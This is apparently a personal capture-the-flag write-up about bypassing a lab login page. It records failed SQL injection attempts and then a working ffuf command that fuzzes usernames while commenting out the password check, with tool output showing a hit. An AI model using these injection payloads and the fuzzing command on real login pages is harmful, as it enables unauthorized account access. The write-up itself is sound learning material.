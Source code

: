<img width="961" height="807" alt="image" src="https://github.com/user-attachments/assets/95554a36-ecfa-4ac5-a61e-a314887181da" />

I really thought I could outsmart the login page by setting a limit of
‘ OR 1=1 – LIMIT 1 -
Suffice to say I was just walking against a wall and needed to change the strategy and realise that learning SQLi would not be the solution, at least not in the way I was taught.
SQLmap is being advertised as a tool we should maybe use to solve this task. At least that’s what this looks like to me. What also could help is if I try to use Burp Suite and check what kind of SQL injections could be safer. Maybe there is a site, where I can check that out. But for now I needed to terminate the machine and start everything anew.
After watching a video from NetworkChuck about SQL Injections I at least want to try one injection that would just comment out the rest of the query and check for the admin, which should just be one line and not the entire database. For the username I tried the command
admin’-- 
and the password 
password123
which would just be commented out. That didn’t lead to anything yet again. 	

After a day passed I waited for friends to come by, so we could walk through this together. We tried running Burp Suite but quickly realized that the Response Header and Body wouldn’t lead to any clues, but at least I got firsthand experience with using the application for the first time. We discussed a lot of use cases and what kind of sql commands could be safe to use. The idea of using LIMIT 1 was brought up but was quickly rejected by me, reminding them, that I already tried that. Unfortunately my friends were also not that experienced when it came to SQL injections and only knew of the most common commands, which obviously were the exact ones the challenge recommended us not to use.
As this was taking a lot of time one of my friends gave up, while the other one said he would need to look up other videos, which gave a clear crash course on SQL injections and maybe even bruteforcing. I waved them goodbye and took a break myself.

Suddenly though I came to a conclusion that I never tried to apply. I had my textfile for all the usernames and knew I could comment out passwords, by the syntax of „-- -“. So I combined those ideas with the ffuf tool and reached the light of the tunnel. 

```
root@ip-10-10-102-195:~/inputs# ffuf -X POST -u http://10.10.179.215/ -d "username=FUZZ' -- -&password=test" -w usernames.txt:FUZZ -H "Content-Type: application/x-www-form-urlencoded" -fs 1253

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.179.215/
 :: Wordlist         : FUZZ: usernames.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ' -- -&password=test
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 1253
________________________________________________

:: Progress: [40/10164] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Erro:: Progress: [206/10164] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Err:: Progress: [419/10164] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Err:: Progress: [631/10164] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errarnold                  [Status: 200, Size: 2524, Words: 251, Lines: 38]
```